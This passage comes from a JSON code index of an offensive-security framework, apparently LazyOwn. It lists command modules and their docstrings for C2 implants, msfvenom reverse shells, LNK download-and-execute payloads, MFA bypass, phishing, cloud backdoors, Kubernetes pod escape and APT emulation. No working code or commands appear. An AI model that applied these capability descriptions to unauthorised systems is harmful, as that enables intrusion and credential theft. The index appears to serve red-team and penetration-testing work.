"do_ttp_show", "signature": "def do_ttp_show(self, line)"}, {"doc": "Pick the next best technique to run for a target.\n\nUsage: plan <target>\nShows the chosen technique, its score, and a one-line rationale.", "kind": "method", "line": 336, "name": "do_plan", "signature": "def do_plan(self, line)"}, {"doc": "Show the full ranked plan (all candidates) for a target.\n\nUsage: plan_detail <target>", "kind": "method", "line": 364, "name": "do_plan_detail", "signature": "def do_plan_detail(self, line)"}, {"doc": "Run the planner, then auto-create and start an operation.\n\nUsage: plan_apply <target> [op_name] [apt_name]", "kind": "method", "line": 391, "name": "do_plan_apply", "signature": "def do_plan_apply(self, line)"}]}, {"doc": "Campaign export/import commands — portable engagement packages.  Package a full campaign (database, sessions, world model, credentials, notes, loot) into a single portable .zip file.  Import restores everything into a new workspace so engagements can be shared, archived, or replayed.", "id": "cli/commands/campaign.py", "kind": "module", "label": "campaign.py", "language": "py", "sha256": "f447847c4595514a", "symbol_count": 7, "symbols": [{"doc": "Export and import full campaign packages as portable archives.", "kind": "class", "line": 37, "name": "CampaignCommandSet", "signature": "class CampaignCommandSet(LazyOwnCommandSet)"}, {"doc": "Export or import an entire campaign as a portable package.\n\nUsage:\n    campaign export [name]     — package the current campaign\n    campaign import <file>     — restore a campaign from a package\n    campaign list              — list exported campaign packages\n    campaign status            — show live shared campaign state\n\nExport packages include:\n  - SQLite database dump (all workspaces, hosts, services, vulns,\n    creds, loot, notes)\n  - sessions/ files (nmap scans, world model, objectives, events)\n  - payload.json snapshot\n  - campaign metadata (timestamp, operator, phase)\n\nExamples:\n    campaign export\n    campaign export htb_machine_name\n    campaign import sessions/exports/htb_machine_name_20260730.zip\n    campaign list", "kind": "method", "line": 44, "name": "do_campaign", "signature": "def do_campaign(self, line)"}, {"doc": "Build a manifest describing the current campaign state.", "kind": "method", "line": 93, "name": "_gather_campaign_manifest", "signature": "def _gather_campaign_manifest(self, name)"}, {"doc": "Package the current campaign into a portable .zip archive.", "kind": "method", "line": 135, "name": "_campaign_export", "signature": "def _campaign_export(self, name)"}, {"doc": "Restore a campaign from an exported .zip archive.", "kind": "method", "line": 184, "name": "_campaign_import", "signature": "def _campaign_import(self, package_path)"}, {"doc": "List exported campaign packages.", "kind": "method", "line": 305, "name": "_campaign_list", "signature": "def _campaign_list(self)"}, {"doc": "Print the live shared campaign state (no export, read-only).", "kind": "method", "line": 337, "name": "_campaign_status", "signature": "def _campaign_status(self)"}]}, {"doc": "Command catalog — browse all registered commands by keyword, phase or category.  Backed by the auto-generated ``cli/command_index.json`` so the listing stays in sync with the source tree. Addons and plugins registered at runtime are shown by the ``addons`` view.", "id": "cli/commands/catalog.py", "kind": "module", "label": "catalog.py", "language": "py", "sha256": "032b7bfd8b7462fd", "symbol_count": 6, "symbols": [{"doc": "Browse the command catalog.", "kind": "class", "line": 19, "name": "CatalogCommandSet", "signature": "class CatalogCommandSet(LazyOwnCommandSet)"}, {"doc": "Split text like shlex.split but handle empty strings gracefully.", "kind": "function", "line": 111, "name": "shlex_split", "signature": "def shlex_split(text)"}, {"kind": "method", "line": 25, "name": "_index", "signature": "def _index(self)"}, {"doc": "Browse the command catalog.\n\nUsage:\n  catalog                 show totals and commands by category\n  catalog <keyword>       filter commands by keyword\n  catalog --phase <p>     list commands in a phase (recon, enum, ...)\n  catalog --category <c>  list commands in a category\n  catalog --count         show totals only\n  catalog --json <kw>     dump matching commands as JSON", "kind": "method", "line": 33, "name": "do_catalog", "signature": "def do_catalog(self, line)"}, {"doc": "Filter *commands* by keyword in name or summary.", "kind": "method", "line": 88, "name": "_filter_commands", "signature": "def _filter_commands(self, commands, keyword)"}, {"doc": "Print *hits* (grouped by category) under *label*.", "kind": "method", "line": 95, "name": "_print_hits", "signature": "def _print_hits(self, hits, label)"}]}, {"doc": "CI/CD Enumeration command set.  Phase 02/03 — commands for enumerating CI/CD platforms, scanning build logs for secrets, and abusing pipeline misconfigurations.", "id": "cli/commands/cicd.py", "kind": "module", "label": "cicd.py", "language": "py", "sha256": "11e3884d6625ac39", "symbol_count": 7, "symbols": [{"doc": "CI/CD pipeline enumeration and attack commands.", "kind": "class", "line": 27, "name": "CICDCommandSet", "signature": "class CICDCommandSet(LazyOwnCommandSet)"}, {"doc": "Scan CI/CD platform for security misconfigurations.\n\nUsage: cicd_scan --url <platform_url> [--type jenkins|gitlab|github|azure|bitbucket]\n\nEnumerates:\n- Exposed API endpoints\n- Credential stores\n- Pipeline configurations with potential secret leakage\n- Unauthenticated access vectors", "kind": "method", "line": 34, "name": "do_cicd_scan", "signature": "def do_cicd_scan(self, line)"}, {"doc": "Scan build log for leaked secrets.\n\nUsage: cicd_secrets [--file <path>] [--input <text>]\n\nScans provided text or file for common secret patterns:\npasswords, API keys, tokens, SSH keys, AWS keys, database\nconnection strings, and package registry tokens.", "kind": "method", "line": 97, "name": "do_cicd_secrets", "signature": "def do_cicd_secrets(self, line)"}, {"doc": "Enumerate a Jenkins instance.\n\nUsage: jenkins_enum --url <jenkins_url>\n\nChecks for: Script Console access, credential store exposure,\nunauthenticated API, build agent enumeration, console output\nwith potential secret leakage.", "kind": "method", "line": 140, "name": "do_jenkins_enum", "signature": "def do_jenkins_enum(self, line)"}, {"doc": "Enumerate a GitLab instance.\n\nUsage: gitlab_enum --url <gitlab_url>\n\nChecks for: Public projects, API accessibility, CI lint API,\nrunner enumeration, GraphQL API, version disclosure.", "kind": "method", "line": 185, "name": "do_gitlab_enum", "signature": "def do_gitlab_enum(self, line)"}, {"doc": "Enumerate and test MFA bypass techniques.\n\nUsage: mfa_bypass --domain <target.com> [--idp <okta|azure|duo>]\n\nAnalyzes target MFA posture and recommends bypass techniques:\n- Session cookie theft and replay\n- Push notification bombing/fatigue\n- Legacy protocol enumeration (IMAP/POP3/SMTP)\n- Conditional Access policy gaps\n- SAML assertion forging\n- Device code phishing templates", "kind": "method", "line": 231, "name": "do_mfa_bypass", "signature": "def do_mfa_bypass(self, line)"}, {"kind": "method", "line": 290, "name": "_extract", "signature": "def _extract(args, flag)"}]}, {"doc": "CLI authentication command set — login/logout/whoami.  Integrates with :mod:`modules.cli_auth` to authenticate CLI operators against the same ``users.json`` as lazyc2.py.", "id": "cli/commands/cli_auth.py", "kind": "module", "label": "cli_auth.py", "language": "py", "sha256": "38b4e326c77cf7c6", "symbol_count": 5, "symbols": [{"doc": "CLI operator authentication — login, logout, whoami.", "kind": "class", "line": 27, "name": "CliAuthCommandSet", "signature": "class CliAuthCommandSet(LazyOwnCommandSet)"}, {"doc": "Authenticate against users.json (same users as lazyc2.py).\n\nUsage:\n    login                          — prompt for username and password\n    login <username>               — login with specified username\n    login --remember <username>     — persist login across shell restarts\n\nCredentials are verified against the same users.json database\nused by the C2 web dashboard. The password is never echoed.\n\nWith ``--remember``, a secure token is stored in payload.json\nso you are automatically logged in on future shell starts.\n\nExamples:\n    login\n    login grisun0\n    login --remember grisun0", "kind": "method", "line": 34, "name": "do_login", "signature": "def do_login(self, line)"}, {"doc": "Register a new operator account in users.json.\n\nUsage:\n    register                          — prompt for username and password\n    register <username>               — register with specified username\n\nFirst registered user becomes admin; subsequent users get the\nuser role. Password must be at least 12 characters.\n\nAfter registration you can login immediately with the same\ncredentials, or use ``login --remember`` for persistent sessions.\n\nExamples:\n    register\n    register newoperator", "kind": "method", "line": 117, "name": "do_register", "signature": "def do_register(self, line)"}, {"doc": "Log out the current CLI operator and clear the remember-me token.\n\nUsage:\n    logout\n\nClears the CLI session and removes any stored remember-me token\nfrom payload.json.", "kind": "method", "line": 191, "name": "do_logout", "signature": "def do_logout(self, line)"}, {"doc": "Show the currently logged-in CLI operator.\n\nUsage:\n    whoami\n\nDisplays username, role, ELO score, and karma rank.", "kind": "method", "line": 224, "name": "do_whoami", "signature": "def do_whoami(self, line)"}]}, {"doc": "Cloud attack command set.  Commands for cloud provider enumeration, metadata harvesting, storage bucket discovery, and IAM reconnaissance across AWS, Azure, and GCP.", "id": "cli/commands/cloud.py", "kind": "module", "label": "cloud.py", "language": "py", "sha256": "85ca6d785dd0e5f1", "symbol_count": 7, "symbols": [{"doc": "Cloud attack phase commands.", "kind": "class", "line": 30, "name": "CloudCommandSet", "signature": "class CloudCommandSet(LazyOwnCommandSet)"}, {"kind": "method", "line": 36, "name": "_get_cloud_scanner", "signature": "def _get_cloud_scanner(self)"}, {"doc": "Harvest cloud instance metadata (AWS IMDS, Azure, GCP).\n\nAttempts to read cloud instance metadata from all three major\nproviders. Discovers IAM credentials, SSH keys, user-data\nscripts, and managed identity tokens.\n\nUsage: cloud_metadata", "kind": "method", "line": 49, "name": "do_cloud_metadata", "signature": "def do_cloud_metadata(self, _line)"}, {"doc": "Enumerate cloud storage buckets for a given prefix.\n\nChecks AWS S3, Azure Blob Storage, and GCP Storage buckets\nderived from the target prefix for public accessibility.\n\nUsage:\n    cloud_buckets <prefix>\n    cloud_buckets mycompany", "kind": "method", "line": 98, "name": "do_cloud_buckets", "signature": "def do_cloud_buckets(self, line)"}, {"doc": "Full cloud security scan: metadata + buckets + IAM enumeration.\n\nUsage:\n    cloud_scan <prefix>\n    cloud_scan mycompany", "kind": "method", "line": 148, "name": "do_cloud_scan", "signature": "def do_cloud_scan(self, line)"}, {"doc": "Enumerate cloud IAM roles and policies.\n\nAttempts to enumerate IAM users, roles, and policies when\nvalid cloud credentials are present in the environment.\n\nUsage: cloud_iam", "kind": "method", "line": 187, "name": "do_cloud_iam", "signature": "def do_cloud_iam(self, _line)"}, {"doc": "Enumerate cloud provider metadata, storage, and IAM.\n\nUsage: cloud_enum [provider]\nProviders: aws, azure, gcp (auto-detect if omitted)\n\nPerforms full enumeration including IMDS metadata extraction,\nstorage bucket listing, IAM role enumeration, and privilege\nescalation path detection.  Auto-installs dependencies if missing.", "kind": "method", "line": 239, "name": "do_cloud_enum", "signature": "def do_cloud_enum(self, line)"}]}, {"doc": "Cloud attack commands — Azure AD/Entra ID, AWS, GCP, Kubernetes, cross-cloud, SaaS.  Provides: entra_attack            — Entra ID device code phishing, OAuth consent, managed identity aws_privesc             — AWS IAM enumeration, Lambda backdoors, STS role chaining gcp_privesc             — GCP service account impersonation, Cloud Functions, GCS k8s_attack              — Kubernetes RBAC enum, pod escape, etcd, Helm Tiller cross_cloud             — Cross-cloud federation attacks (SAML/OIDC bridging) saas_enum               — SaaS platform enumeration (M365, Google Workspace, Salesforce, Slack)", "id": "cli/commands/cloud_attacks.py", "kind": "module", "label": "cloud_attacks.py", "language": "py", "sha256": "428c9196c9eda33a", "symbol_count": 7, "symbols": [{"doc": "Cloud and SaaS attack operations.", "kind": "class", "line": 17, "name": "CloudAttackCommandSet", "signature": "class CloudAttackCommandSet(LazyOwnCommandSet)"}, {"doc": "Microsoft Entra ID / Azure AD attack operations.\n\nUsage: entra_attack <method> [options]\n\nMethods:\n    device_code   — Initiate device code phishing flow\n    consent_grant — Generate OAuth consent grant phishing URL\n    spn_cred_theft — Service principal credential theft plan\n    managed_identity — Managed identity abuse from compromised VM/container\n    connect_sync  — Entra Connect Sync abuse (on-prem ↔ cloud)\n    ca_bypass     — Conditional Access bypass techniques\n    tenant_enum   — Enumerate tenant via Graph API\n\nExamples:\n    entra_attack device_code\n    entra_attack consent_grant\n    entra_attack tenant_enum", "kind": "method", "line": 23, "name": "do_entra_attack", "signature": "def do_entra_attack(self, line)"}, {"doc": "AWS privilege escalation and enumeration.\n\nUsage: aws_privesc <method>\n\nMethods:\n    iam_enum        — Enumerate IAM permissions and privesc paths\n    lambda_backdoor — Backdoor a Lambda function for role credential theft\n    sts_chain       — Enumerate STS AssumeRole privesc chains\n    ec2_data        — Extract EC2 instance user data and metadata\n    s3_enum         — Enumerate S3 buckets and permissions\n    cf_drift        — CloudFormation drift exploitation\n    ssm_abuse       — SSM session abuse for EC2 shell access\n\nExamples:\n    aws_privesc iam_enum\n    aws_privesc lambda_backdoor", "kind": "method", "line": 125, "name": "do_aws_privesc", "signature": "def do_aws_privesc(self, line)"}, {"doc": "GCP privilege escalation and enumeration.\n\nUsage: gcp_privesc <method>\n\nMethods:\n    iam_enum        — Enumerate GCP IAM policies\n    sa_impersonate  — Service account impersonation attack\n    cloud_function  — Cloud Functions backdoor\n    metadata_exfil  — Compute Engine metadata exfiltration\n    gcs_enum        — Cloud Storage bucket enumeration\n    cloudbuild      — Cloud Build abuse\n    org_escalation  — Organization-level escalation paths\n\nExamples:\n    gcp_privesc iam_enum\n    gcp_privesc metadata_exfil", "kind": "method", "line": 215, "name": "do_gcp_privesc", "signature": "def do_gcp_privesc(self, line)"}, {"doc": "Kubernetes attack — RBAC enumeration, pod escape, etcd, persistence.\n\nUsage: k8s_attack <method>\n\nMethods:\n    rbac_enum       — Enumerate RBAC permissions\n    pod_escape      — Privileged pod escape plan (hostPID, hostPath, docker socket)\n    token_theft     — Service account token theft across namespaces\n    kubelet_abuse   — Kubelet anonymous auth abuse\n    etcd            — etcd database exploitation\n    helm            — Helm Tiller abuse (v2+v3)\n    persistence     — K8s persistence techniques\n\nExamples:\n    k8s_attack rbac_enum\n    k8s_attack pod_escape\n    k8s_attack persistence", "kind": "method", "line": 302, "name": "do_k8s_attack", "signature": "def do_k8s_attack(self, line)"}, {"doc": "Cross-cloud identity federation attacks.\n\nUsage: cross_cloud <method>\n\nMethods:\n    azure_to_aws   — Azure AD SAML → AWS role assumption\n    gcp_to_azure   — GCP OIDC → Azure AD token exchange\n    aws_to_gcp     — AWS OIDC → GCP workload identity federation\n    imds_harvest   — Multi-cloud IMDS metadata harvesting (6 providers)\n    detect_federation — Detect cross-cloud federation configurations\n\nExamples:\n    cross_cloud azure_to_aws\n    cross_cloud imds_harvest\n    cross_cloud detect_federation", "kind": "method", "line": 387, "name": "do_cross_cloud", "signature": "def do_cross_cloud(self, line)"}, {"doc": "Enumerate SaaS platforms — M365, Google Workspace, Salesforce, Slack, ServiceNow.\n\nUsage: saas_enum <platform>\n\nPlatforms: m365, google_workspace, salesforce, servicenow, slack, all\n\nExamples:\n    saas_enum m365\n    saas_enum slack\n    saas_enum all", "kind": "method", "line": 470, "name": "do_saas_enum", "signature": "def do_saas_enum(self, line)"}]}, {"doc": "Collaboration CLI commands — multi-operator teamwork from the shell.  Exposes the real-time collaboration layer (target locks, operator presence, event sharing) that currently lives only in the C2 web dashboard.", "id": "cli/commands/collaboration.py", "kind": "module", "label": "collaboration.py", "language": "py", "sha256": "b1bfb064b9d48fc7", "symbol_count": 8, "symbols": [{"doc": "Multi-operator collaboration commands for the CLI.", "kind": "class", "line": 20, "name": "CollaborationCommandSet", "signature": "class CollaborationCommandSet(LazyOwnCommandSet)"}, {"doc": "Lazy-load collaboration singletons from modules.collab_bp.", "kind": "method", "line": 26, "name": "_get_collab", "signature": "def _get_collab(self)"}, {"doc": "Resolve a target argument: explicit IP or rhost from payload.", "kind": "method", "line": 38, "name": "_resolve_target", "signature": "def _resolve_target(self, target)"}, {"doc": "Acquire an advisory lock on a target to prevent tool collisions.\n\nUsage:\n    lock_target [target_ip]\n    lock_target 10.10.11.5\n\nWithout an argument, locks the current rhost from payload.json.\nActive locks are visible to all connected operators via 'team_status'.\nLocks auto-expire after 5 minutes unless refreshed.", "kind": "method", "line": 48, "name": "do_lock_target", "signature": "def do_lock_target(self, line)"}, {"doc": "Release an advisory lock on a target.\n\nUsage:\n    unlock_target [target_ip]\n    unlock_target 10.10.11.5", "kind": "method", "line": 89, "name": "do_unlock_target", "signature": "def do_unlock_target(self, line)"}, {"doc": "Show active operators and target locks.\n\nUsage:\n    team_status\n\nDisplays who is online, which targets are locked, and by whom.\nRequires the C2 server to be running.", "kind": "method", "line": 114, "name": "do_team_status", "signature": "def do_team_status(self, line)"}, {"doc": "Send a message to all connected operators.\n\nUsage:\n    team_chat <message>\n    team_chat Found SMB signing disabled on 10.10.11.5, starting relay\n\nMessages are broadcast in real-time via the C2 event bus.", "kind": "method", "line": 169, "name": "do_team_chat", "signature": "def do_team_chat(self, line)"}, {"doc": "Share a finding or credential discovery with the team.\n\nUsage:\n    share_finding <text>\n    share_finding Default admin:admin credentials on port 8080\n\nBroadcasts via team event bus for real-time visibility.", "kind": "method", "line": 199, "name": "do_share_finding", "signature": "def do_share_finding(self, line)"}]}, {"doc": "Command & Control command set.  Phase-scoped home for the C2 / beacon operator commands (category ``10. Command & Control``). This module is intentionally an empty, active ``CommandSet`` scaffold: migrate one ``do_*`` method at a time out of ``lazyown.py`` into this class.  Migration rule -------------- When you paste a ``do_<name>`` method here you MUST delete the original copy from ``lazyown.py`` in the same change. Registering the same command name on both the shell and an active ``CommandSet`` raises a duplicate-command error at startup. Decorate migrated methods with ``@cmd2.with_category(command_and_control_category)`` so they keep their help grouping, and rely on :class:`cli.commands._base.LazyOwnCommandSet` to forward ``self.params`` / ``self.cmd`` / other shell state once registered.  Discovery is automatic: :func:`cli.registry.register_command_sets` finds this class at startup, so no wiring change is needed as commands are added.", "id": "cli/commands/command_and_control.py", "kind": "module", "label": "command_and_control.py", "language": "py", "sha256": "7f9f31ff4270b592", "symbol_count": 7, "symbols": [{"doc": "Command & Control phase commands (migrate ``do_*`` here one at a time).", "kind": "class", "line": 34, "name": "CommandAndControlCommandSet", "signature": "class CommandAndControlCommandSet(LazyOwnCommandSet)"}, {"doc": "Show consolidated C2 status: listeners, beacons, implants, and sessions.", "kind": "method", "line": 41, "name": "do_c2_status", "signature": "def do_c2_status(self, _line)"}, {"doc": "List all active beacon sessions with their last-seen timestamps.", "kind": "method", "line": 98, "name": "do_c2_beacons", "signature": "def do_c2_beacons(self, _line)"}, {"doc": "Generate a fresh AES-256 key for beacon encryption.", "kind": "method", "line": 134, "name": "do_c2_keygen", "signature": "def do_c2_keygen(self, _line)"}, {"doc": "Quick C2 setup: generate key, prepare implant dir, print beacon commands.\n\nOne-shot setup that prepares everything needed for a C2 session:\nAES key, implant staging directory, and ready-to-use beacon commands\nfor both Linux and Windows targets.", "kind": "method", "line": 151, "name": "do_c2_quickstart", "signature": "def do_c2_quickstart(self, _line)"}, {"doc": "Queue a command for execution on a connected beacon.\n\nUsage:\n    c2_beacon_cmd <client_id> <command>\n    c2_beacon_cmd abc123 id", "kind": "method", "line": 198, "name": "do_c2_beacon_cmd", "signature": "def do_c2_beacon_cmd(self, line)"}, {"doc": "Generate a compiled implant payload for the target platform.\n\nUsage:\n    c2_implant <linux|windows> [output_name]\n    c2_implant linux mybeacon", "kind": "method", "line": 233, "name": "do_c2_implant", "signature": "def do_c2_implant(self, line)"}]}, {"doc": "command_and_control commands migrated from lazyown.py.  Auto-generated by scripts/migrate_lazyown.py.", "id": "cli/commands/command_and_control_migrated.py", "kind": "module", "label": "command_and_control_migrated.py", "language": "py", "sha256": "e48d1d582e917c4e", "symbol_count": 26, "symbols": [{"kind": "class", "line": 39, "name": "CommandAndControlMigratedCommandSet", "signature": "class CommandAndControlMigratedCommandSet(LazyOwnCommandSet)"}, {"doc": "Automates various Metasploit tasks including scanning for vulnerabilities, setting up reverse shells, and creating payloads.\n\n1. If no arguments are provided:\n    - Retrieves the target IP (`self.params['rhost']`) from parameters.\n    - Checks if the IP is valid using `check_rhost()`. If invalid, exits the function.\n    - Creates a Metasploit resource script (`/tmp/scan_vulnerabilities.rc`) that includes commands for scanning ports, enumerating services, and checking for known vulnerabilities.\n    - Executes Metasploit with the created resource script and then deletes the temporary file.\n    - Prints a shutdown message after running the scan.\n\n2. If the argument starts with \"rev\":\n    - Sets up a reverse shell payload based on the specified platform and user choice (with or without meterpreter).\n    - Creates a Metasploit resource script (`/tmp/handler.rc`) for handling incoming reverse shell connections.\n    - Executes Metasploit with the created resource script and then deletes the temporary file.\n    - Prints a shutdown message after setting up the handler.\n\n3. If the argument starts with \"lnk\":\n    - Configures parameters (`self.params['lhost']`, `lport`) for creating a payload.\n    - Uses `msfvenom` to generate a payload executable and saves it in the `sessions` directory.\n    - Creates an XML file (`download_payload.xml`) that will be used to download and execute the payload on a target machine.\n    - Creates a PowerShell script (`create_lnk.ps1`) to generate a shortcut file (`.lnk`) pointing to the payload.\n    - Prints instructions and generates a command to copy to the clipboard for setting up the payload and files.\n\n4. If the argument starts with \"autoroute\":\n    - Configures parameters for setting up a Metasploit session and autorouting.\n    - Creates a Metasploit resource script (`/tmp/autoroute.rc`) to handle exploit sessions and assign up autorouting.\n    - Executes Metasploit with the resource script and starts a SOCKS proxy for routing traffic.\n    - Configures proxychains to use the Metasploit SOCKS proxy and prints instructions for using proxychains with tools.\n\n:param line: The command line input that determines which Metasploit task to automate.\n:type line: str\n:returns: None\n\nManual execution:\nTo manually run these tasks, you would need to:\n- For scanning: Create and run the resource script using `msfconsole -r /tmp/scan_vulnerabilities.rc`.\n- For reverse shells: Configure and run the resource script with the appropriate payload settings.\n- For payload generation and shortcuts: Use `msfvenom` and create XML and PowerShell scripts as specified.\n- For autorouting: Create and run the resource script for autorouting and configure proxychains.\n\nNote: Ensure all required parameters (`self.params['lhost']`, `lport`, etc.) are assign before running these tasks.", "kind": "method", "line": 44, "name": "do_msf", "signature": "def do_msf(self, line)"}, {"doc": "Handle C2 server setup and agent compilation.\n\nThis method manages the process of setting up a Command and Control (C2)\nserver and compiling a corresponding agent for various platforms.\n\nArgs:\n    line (str): Specifies the victim ID and optional C2 server configurations.\n        - Victim ID: The identifier for the target agent.\n        - Tunnel Option (optional): Append '1' to use a Cloudflare tunnel.\n        - Target Choice (optional): A number from '1' to '7' to specify the\n        agent platform (default is '1' for Windows PowerShell).\n            - '1': Windows PowerShell\n            - '2': Linux Shell\n            - '3': Windows Batch\n            - '4': macOS Shell\n            - '5': Android Shell\n            - '6': iOS Shell\n            - '7': WebAssembly Shell\n        - Tunnel Toggle (optional): After the victim ID and target choice,\n        you can append '1' to enable the Cloudflare tunnel or '0' to disable it.\n\nReturns:\n    None\n\nRaises:\n    None\n\nExample Usage:\n    c2 victim-1  # Compiles a Windows PowerShell agent\n    c2 victim-2 2 # Compiles a Linux Shell agent\n    c2 victim-3 1 1 # Compiles a Windows PowerShell agent with Cloudflare tunnel\n\nNotes:\n    - Ensure the 'self.params['lhost']' and 'self.params['c2_port']' parameters are correctly set in the\n    `payload.json` config file before calling this method.\n    - The `modules/run` file and files in `modules/backdoor/` and\n    `modules/rootkit/` directories must exist for the agent compilation\n    process.\n    - The go artifactory is ofuscated by garble if is installed", "kind": "method", "line": 394, "name": "do_c2", "signature": "def do_c2(self, line)"}, {"doc": "Manage C2 listeners: list, add, start, stop, remove.\n\nUsage:\n    listener list                  - Show all configured listeners\n    listener add <port> [ssl]      - Add a new listener (ssl: true/false)\n    listener start <id>            - Start a listener via C2 API\n    listener stop <id>             - Stop a listener via C2 API\n    listener remove <id>           - Remove a listener\n\nExamples:\n    listener add 4445 true\n    listener start listener-4445\n    listener stop default", "kind": "method", "line": 516, "name": "do_listener", "signature": "def do_listener(self, line)"}, {"doc": "Toggle or query Docker sandbox mode.\n\nWhen ``sandboxed`` is ``true`` in ``payload.json``, the framework\nautomatically runs inside a Docker container on the next launch.\n\nUsage:\n    sandbox         - Show current sandbox status\n    sandbox on      - Enable sandbox mode\n    sandbox off     - Disable sandbox mode", "kind": "method", "line": 644, "name": "do_sandbox", "signature": "def do_sandbox(self, line)"}, {"doc": "Connects to the msfrpcd daemon and allows remote control of Metasploit.\n\nUsage:\n    msfrpc -a <IP address> -p <port> -U <username> -P <password> [-S]\n\nThis command will prompt the user for necessary information to connect to msfrpcd.", "kind": "method", "line": 686, "name": "do_msfrpc", "signature": "def do_msfrpc(self, line)"}, {"doc": "Starts the Sliver server and generates a client configuration file for connecting clients.\nProvides options to download the Sliver client for Windows, Linux, or macOS.\n\nUsage:\n    sliver-server [flags]\n    sliver-client [command]\n\nThis function installs Sliver if it is not already installed, starts the Sliver server,\ngenerates the necessary certificates, and creates a client configuration file.\nIt also provides options to download the client for different operating systems.\n\nParameters:\n    line (str): The command line input for the function (not used directly in the current implementation).\n\nReturns:\n    None\n\nExample:\n    To start the Sliver server, generate the necessary certificates, and download the client,\n    run this function. Choose the appropriate client download option based on the operating system.", "kind": "method", "line": 710, "name": "do_sliver_server", "signature": "def do_sliver_server(self, line)"}, {"doc": "Generates payloads using PowerShell Empire with various options.\n\n:param line: Not used in this implementation but reserved for future use.\n\n:returns: None", "kind": "method", "line": 827, "name": "do_empire", "signature": "def do_empire(self, line)"}, {"doc": "Try to check if Vulnerable using the module passed by argument of lazyown example automsf exploit/windows/iis/iis_webdav_upload_asp to use in metasploit\n:param line: Command line input that provides the LHOST and RHOST.\n:type line: str\n:returns: None", "kind": "method", "line": 877, "name": "do_automsf", "signature": "def do_automsf(self, line)"}, {"doc": "(CVE-2017-7269). Vulnerable using the module iis_webdav_upload_asp of metasploit\n:param line: Command line input that provides the LHOST and RHOST.\n:type line: str\n:returns: None", "kind": "method", "line": 922, "name": "do_iis_webdav_upload_asp", "signature": "def do_iis_webdav_upload_asp(self, line)"}, {"doc": "duckyspark Compiles and uploads an .ino sketch to a Digispark device using Arduino CLI and Micronucleus.\n\nduckyspark method checks if Arduino CLI and Micronucleus are installed on the system.\nIf they are not available, it installs them. It then compiles a Digispark sketch\nand uploads the generated .hex file to the Digispark device.\n\nThe method duckyspark performs the following actions:\n1. Checks for the presence of Arduino CLI and installs it if not available.\n2. Configures Arduino CLI for Digispark if not already configured.\n3. Generates a reverse shell payload and prepares the sketch for Digispark.\n4. Compiles the prepared Digispark sketch using Arduino CLI.\n5. Checks for the presence of Micronucleus and installs it if not available.\n6. Uploads the compiled .hex file to the Digispark device using Micronucleus.\n\nArgs:\n    line (str): Command line input provided by the user, which may contain additional parameters.\n\nReturns:\n    None: The function does not return any value but may modify the state of the system\n        by executing commands.", "kind": "method", "line": 957, "name": "do_duckyspark", "signature": "def do_duckyspark(self, line)"}, {"doc": "Command emp3r0r Downloads and sets up the Emperor server for local exploitation.\n\nThis function performs the following tasks:\n1. Checks if Emperor is already downloaded.\n2. Downloads the Emperor tar.xz file if not already present.\n3. Extracts the contents into the sessions directory.\n4. Executes the Emperor server.\n5. Prepares the agent download command based on the OS Host and copies it to the clipboard.\n\nArgs:\n    line (str): Optional arguments to specify port Relay\n\nReturns:\n    None\n\nExample:\n    emp3r0r 6666\n\nNotes:\n    - Ensure that the required dependencies are installed.", "kind": "method", "line": 1158, "name": "do_emp3r0r", "signature": "def do_emp3r0r(self, line)"}, {"doc": "Executes Atomic Red Team tests based on user-selected platform and test.\n\nThis function performs the following actions:\n1. Verifies the presence of the Atomic Red Team repository; if not present, it clones it locally.\n2. Prompts the user to select a target platform, filtering the available tests to only those compatible.\n3. Displays the filtered tests, including their description and platform compatibility.\n4. Allows the user to select and execute a test or specify parameters directly.\n\nParameters:\nline (str): Command-line arguments for specifying a test ID or additional parameters.\n            If not provided, interactive input will be used.\n\nReturns:\nNone", "kind": "method", "line": 1222, "name": "do_atomic_tests", "signature": "def do_atomic_tests(self, line)"}, {"doc": "Generates test and cleanup scripts for a given Atomic Red Team technique ID.\n\nParameters:\nline (str): The technique ID.\n\nReturns:\nNone", "kind": "method", "line": 1382, "name": "do_atomic_gen", "signature": "def do_atomic_gen(self, line)"}, {"doc": "Generates and synchronizes atomic agent scripts.\n\nParameters:\nline (str): Command-line arguments (not used in this function).\n\nReturns:\nNone", "kind": "method", "line": 1566, "name": "do_atomic_agent", "signature": "def do_atomic_agent(self, line)"}, {"doc": "Executes a multi-step APT simulation plan based on Atomic Red Team test IDs.\n\nParameters:\nline (str) optional: Path to the YAML plan file. Append --auto to execute\n                      generated scripts immediately instead of just generating.\n\nReturns:\nNone", "kind": "method", "line": 1666, "name": "do_attack_plan", "signature": "def do_attack_plan(self, line)"}, {"doc": "List, validate, and run APT playbooks based on public threat reports.\n\nUsage:\n    apt_playbook list                  - Show available APT playbooks\n    apt_playbook info <apt_name>       - Show phases and techniques\n    apt_playbook validate <apt_name>   - Check atomic tests availability\n    apt_playbook run <apt_name>        - Generate attack_plan.yaml\n    apt_playbook report <apt_name>     - Write JSON report to sessions/\n\nExamples:\n    apt_playbook list\n    apt_playbook info apt29\n    apt_playbook run apt28", "kind": "method", "line": 1790, "name": "do_apt_playbook", "signature": "def do_apt_playbook(self, line)"}, {"doc": "Interacts with the MITRE ATT&CK framework using the STIX 2.0 format.\n\nThis function connects to a locally cached or downloaded ATT&CK dataset in STIX 2.0 format.\nIt allows the user to explore tactics, techniques, and procedures (TTPs) and filter them\nbased on specific criteria, such as platform or tactic.\n\nParameters:\n    line (str): User input, which may specify filters or actions, such as a tactic name or technique ID.\n\nUsage:\n    mitre_test list             # Lists all tactics and techniques\n    mitre_test tactic <name>    # Lists techniques for a specific tactic\n    mitre_test technique <id>   # Shows details of a specific technique", "kind": "method", "line": 1910, "name": "do_mitre_test", "signature": "def do_mitre_test(self, line)"}, {"doc": "Generates a playbook that integrates Atomic Red Team tests and MITRE ATT&CK techniques.\n\nThis function creates a playbook by combining tests from the Atomic Red Team repository\nand techniques from the MITRE ATT&CK framework. The playbook includes detailed information\nabout each test and technique, making it a comprehensive resource for emulating adversary\nbehaviors.\n\nParameters:\nline (str): Command-line arguments for specifying the playbook name and optional filters.\n            The filters can be applied to various attributes of the tests and techniques,\n            including but not limited to:\n            - name: Filter by the name of the test or technique.\n            - description: Filter by keywords in the description of the test or technique.\n            - mitre_id: Filter by the MITRE ATT&CK technique ID.\n            - platforms: Filter by the supported platforms (e.g., windows, linux, macos).\n            - tactic: Filter by the MITRE ATT&CK tactic associated with the technique.\n            - data_sources: Filter by the data sources mentioned in the technique.\n            - defensive_measures: Filter by the defensive measures mentioned in the technique.\n            - examples: Filter by examples mentioned in the technique.\n            - references: Filter by references or URLs mentioned in the technique.\n            - related_techniques: Filter by related techniques mentioned in the technique.\n            - mitigations: Filter by mitigations mentioned in the 